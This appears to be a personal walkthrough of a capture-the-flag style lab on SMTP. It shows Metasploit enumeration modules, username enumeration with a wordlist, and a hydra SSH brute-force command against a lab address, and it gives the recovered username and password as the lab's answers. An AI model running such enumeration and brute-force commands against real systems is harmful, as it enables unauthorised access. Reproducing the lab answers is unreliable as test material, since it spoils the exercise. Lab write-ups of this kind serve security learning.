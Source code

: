### Let's search for the module "smtp_version", what's it's full module name?
did `search smtp_version` and got 'auxiliary/scanner/smtp/smtp_version'

### Great, now- select the module and list the options. How do we do this?
`options`

### Have a look through the options, does everything seem correct? What is the option we need to set?
RHOSTS

### Set that to the correct value for your target machine. Then run the exploit. What's the system mail name?
Did `set RHOSTS 10.10.63.25` and then `run` to run the exploit.

found 'polosmtp.home'

### What Mail Transfer Agent (MTA) is running the SMTP server? This will require some external research.
'postfix'

### Let's search for the module "smtp_enum", what's it's full module name?
'auxiliary/scanner/smtp/smtp_enum'

### What option do we need to set to the wordlist's path?
'User_file'

so go `/usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt` in full

### Once we've set this option, what is the other essential paramater we need to set?
'rhosts'

### Okay! Now that's finished, what username is returned?
Had to go `sudo apt install seclists` as kali didn't have the user name lists

Go `run` and wait now.

found 'administrator'


## Task 7 - Exploiting SMTP

### What is the password of the user we found during our enumeration stage?
Did `hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt -vV 10.10.63.25 ssh`

Go 'alejandro' as the password
